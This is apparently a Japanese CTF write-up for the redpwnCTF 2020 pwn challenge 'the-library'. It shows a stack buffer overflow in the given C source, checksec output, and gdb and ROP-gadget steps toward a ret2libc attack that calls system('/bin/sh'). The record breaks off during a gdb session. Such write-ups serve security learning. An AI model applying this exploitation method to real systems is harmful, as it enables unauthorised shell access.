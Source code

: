 # the-library:pwn:424pts
There's not a lot of useful functions in the binary itself. I wonder where you can get some...  
nc 2020.redpwnc.tf 31350  
[the-library](the-library)　　　　[the-library.c](the-library.c)　　　　[libc.so.6](libc.so.6)  

# Solution
the-libraryとソースとライブラリが与えられる。  
ソースは以下のようになっている。  
```c:the-library.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to the library... What's your name?");

  read(0, name, 0x100);
  puts("Hello there: ");
  puts(name);
}
```
はじめにchecksecを行う。  
```bash
$ ls
libc.so.6  the-library  the-library.c
$ git clone https://github.com/slimm609/checksec.sh.git
$ ./checksec.sh/checksec --format=csv --file=the-library
Partial RELRO,No Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,1,the-library
```
nameをオーバーフローさせられるようだ("A"*24はすぐに求まる)。  
しかし、systemがどこからも呼び出されていないため、retの飛び先をライブラリ内のsystemに飛ばしてやる必要がある。  
ret2libcとかいうやつらしい(初めてやった)。  
systemの引数には/bin/shを渡してやりたいため、呼び出し前にrdiレジスタに格納する必要がある。  
そのため、スタックをレジスタに格納するgadgetを経由する([rp](https://github.com/0vercl0k/rp)で見つける)。  
gdbでシェルを奪ってみる。  
今後、一部の出力は省略する。  
```bash
$ wget https://github.com/0vercl0k/rp/releases/download/v1/rp-lin-x64
$ ./rp-lin-x64 -f the-library -r 1 | grep "pop rdi ; ret  ;"
0x00400733: pop rdi ; ret  ;  (1 found)
$ gdb the-library
gdb-peda$ start
gdb-peda$ p system
$1 = {int (const char *)} 0x7fffff04f440 <__libc_system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7fffff1b3e9a --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ n 21
Welcome to the library... What's your name?
TEST
gdb-peda$ n 7
~~~
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffed6c8 --> 0x7fffff021b97 (<__libc_start_main+231>:       mov    edi,eax)
0008| 0x7ffffffed6d0 --> 0x1
```
